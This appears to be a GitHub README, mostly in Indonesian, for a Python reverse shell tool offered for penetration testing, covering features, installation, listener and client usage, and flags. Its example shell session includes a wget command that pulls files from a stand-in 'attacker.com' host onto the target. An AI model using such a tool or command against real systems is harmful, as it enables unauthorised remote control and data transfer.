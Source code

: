 # Python Reverse Shell Tool
![carbon](https://github.com/user-attachments/assets/84069659-70af-4767-ab00-a2e9b6577bb4)

Tool reverse shell sederhana berbasis Python untuk penetration testing yang sah.

## Fitur Utama

- 🚀 **Dual Mode**: Mode listener dan client
- 🔒 **Komunikasi Terenkripsi** (versi advanced)
- 📱 **Multi-Platform**: Bekerja di Windows, Linux, dan macOS
- 💻 **Shell Interaktif**
- 📡 **Port Customizable**

# Fitur Tambahan 
- Detailed logging to file
- Different log levels
- Critical error tracking
- Connection errors (timeout, refused, etc.)
- Command execution errors
- Listener setup errors
- Input validation
- Auto-reconnect mechanism
- Input validation for IP/port
- Better resource cleanup
- Graceful shutdown
- Proper socket cleanup
- Error messages don't reveal sensitive info
- Input sanitization
- Clear error messages
- Colorized output
- Helpful status messages


## Persyaratan

- Python 3.6+
- Modul `cryptography` (untuk versi enkripsi)
 ```console
 pip install cryptography
```
## Install
 ```console
git clone https://github.com/hidayat-tanjung/revershe
chomd +x reverse.py
python3 reverse.py
```
# Cara Penggunaan

1. Star Listener 
 ```console
python3 reverse.py
```
Pilih menu 1 (Start Listener) dan masukkan port (misal 8888)

2. Connect dari komputer lain:
 ```console
python3 reverse.py
```
Pilih menu 2 (Connect to Target) dan masukkan:
* IP target (misal 192.168.1.100)
* Port yang sama (8888)

# Untuk Sistem Linux/Mac
```console
shell> ls          # Lihat isi direktori
shell> pwd         # Lihat direktori saat ini 
shell> ls -la      # Lihat semua file termasuk hidden
shell> tree        # Lihat struktur direktori (jika terinstall)
```
* Untuk Sistem Windows
```console
shell> dir         # Lihat isi direktori
shell> cd          # Lihat direktori saat ini
shell> tree        # Lihat struktur direktori
```
* Karakter khusus
```console
shell> cd "My Documents"
shell> cd /var/www/html
shell> ls
```
* Download direktori target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```
* Upoad File ke target
```console
shell> wget http://attacker.com/file.txt -O /tmp/file.txt
```

| Command | Description |
| --- | --- |
| -l | Jalankan sebagai listener |
| -c IP | Hubungkan ke listener di IP target |
| -p PORT | Tentukan port (default: 4444) |
| -i | Mode interaktif |
| -k KEY | Encryption key (versi advanced) |

# Troubleshooting
```console
sudo lsof -i :4444  # Cari proses yang menggunakan port
sudo kill -9 <PID>  # Hentikan proses
```
* Pastikan listener sudah berjalan di target
* Periksa firewall/network configuration
MIT License

Copyright (c) Izumy

[![GitHub](https://img.shields.io/badge/GitHub-View_Project-blue?logo=github)](https://github.com/hidayat-tanjung/revershe/)

